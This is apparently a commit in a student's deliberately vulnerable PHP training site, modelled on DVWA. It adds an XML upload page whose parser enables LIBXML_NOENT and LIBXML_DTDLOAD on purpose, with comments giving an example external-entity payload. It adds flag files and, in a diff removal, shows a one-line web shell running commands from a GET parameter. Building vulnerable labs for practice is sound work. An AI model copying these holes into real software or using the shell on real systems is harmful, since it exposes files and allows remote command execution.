
After one commit to AT190225-HuyTrinh/DVWA-Test, a PHP site: page /DVWA/XXE.php in a window 1280 px wide. The commit adds this page. Shown: the top 323 px of the page. Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
update thêm

```diff
--- /dev/null
+++ b/XXE.php
@@ -0,0 +1,104 @@
+<?php
+    if($_SERVER["REQUEST_METHOD"] == "POST" && isset($_FILES["fileUpload"])){
+       $fileType = strtolower(pathinfo($_FILES["fileUpload"]["name"], PATHINFO_EXTENSION));
+       if($fileType != "xml"){
+            die("Chỉ chấp nhận file xml!!!");
+       }
+       //libxml_disable_entity_loader(true);
+       //chặn k cho tải entity
+       $xml = file_get_contents($_FILES["fileUpload"]["tmp_name"]);
+       $data = simplexml_load_string($xml, "SimpleXMLElement", LIBXML_NOENT | LIBXML_DTDLOAD);
+       /* đoạn code dòng 10 gây lỗi xml external entity vì có dùng 2 cờ gây lỗi là
+        LIBXML_NOENT(substitute entity) thay thế tất cả entity trong xml
+        VD <!ENTITY test SYSTEM "file://http://localhost/DVWA/public_secret/secret.txt"
+        <>&test;<>
+        LIBXML_DTDLOAD(DTD: document type definition) là cờ cho phép tải, định nghĩa 1 document
+        do đó 2 cờ này cho phép có thể định nghĩa document tạo thực thể ngoài */
+
+       if($data == false){
+            die("Không đọc được file => Vui lòng ktra cấu trúc file!");
+       }
+       $kq = [];
+       foreach($data->sinhvien as $sv){
+            $kq[] = [
+                "MSV" => (string)$sv->MSV,
+                "name" => (string)$sv->name,
+                "email" => (string)$sv->email,
+                "que" => (string)$sv->que
+            ];
+       }
+            header("Content-Type: application/json; charset=UTF-8");
+            echo json_encode($kq, JSON_PRETTY_PRINT | JSON_UNESCAPED_UNICODE);
+            exit;
+    }
+?>
+<!DOCTYPE html>
+<html>
+<head>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>XXE</title>
+    <style>
+        * {
+            box-sizing: border-box;
+        }
+
+        body {
+            background-color: #333;
+            font-family: "Press Start 2P", sans-serif;
+            padding: 20px;
+            color: #fff;
+        }
+
+        h1 {
+            text-align: center;
+            color: #fff;
+            margin-bottom: 20px;
+            font-size: 32px;
+        }
+
+        form {
+            display: flex;
+            flex-direction: column;
+            align-items: center;
+            background-color: #fff;
+            padding: 20px;
+            border-radius: 10px;
+            box-shadow: 2px 2px 8px #ccc;
+            margin-bottom: 20px;
+        }
+
+        input[type="file"] {
+            width: 100%;
+            padding: 10px;
+            margin-bottom: 20px;
+            border: none;
+            border-radius: 5px;
+            font-size: 16px;
+            background-color: #fff;
+            color: #333;
+        }
+
+        input[type="submit"] {
+            width: 100%;
+            padding: 10px;
+            background-color: #ffa500;
+            color: #fff;
+            border: none;
+            border-radius: 5px;
+            font-size: 16px;
+            cursor: pointer;
+        }
+
+    </style>
+</head>
+<body>
+    <h1> Upload file</h1>
+    <form method="post" enctype="multipart/form-data">
+        <input type="file" name="fileUpload" id="fileUpload" accept=".xml" required>
+        <input type="submit" value="Tải file XML lên" name="submit">
+
+    </form>
+    <a href="SinhVien.xml" download style="color: #0000FF"> Tải file SinhVien.xml về</a>
+</body>
+</html>
--- a/index.php
+++ b/index.php
@@ -26,6 +26,9 @@
         <a href="login.php" class="list-group-item list-group-item-action">SQL Injection, IDOR</a>
         <a href="xss.php" class="list-group-item list-group-item-action">Stored XSS</a>
         <a href="upload.php" class="list-group-item list-group-item-action">File Upload</a>
+        <a href="path_traversal/path.php" class="list-group-item list-group-item-action">Path Traversal</a>
+        <a href="XXE.php" class="list-group-item list-group-item-action">XXE Injection</a>
+        <a href="command.php" class="list-group-item list-group-item-action">Command Injection</a>
     </div>
 </div>
 
--- /dev/null
+++ b/path_traversal/robots.txt
@@ -0,0 +1,2 @@
+User-agent: *
+Allow: /secret/
--- /dev/null
+++ b/secret/flag.txt
@@ -0,0 +1 @@
+FLAG{this_is_your_flag}
--- /dev/null
+++ b/secret/secret.txt
@@ -0,0 +1 @@
+SECRET{Thanks_God_U_are_here}
--- a/shell.php
+++ /dev/null
@@ -1,5 +0,0 @@
-<?php
-if (isset($_GET['cmd'])) {
-    system($_GET['cmd']);
-}
-?>
```
Also changed, not shown: SinhVien.xml (added, +21 -0 lines), command.php (added, +69 -0 lines), path_traversal/path.php (added, +51 -0 lines).
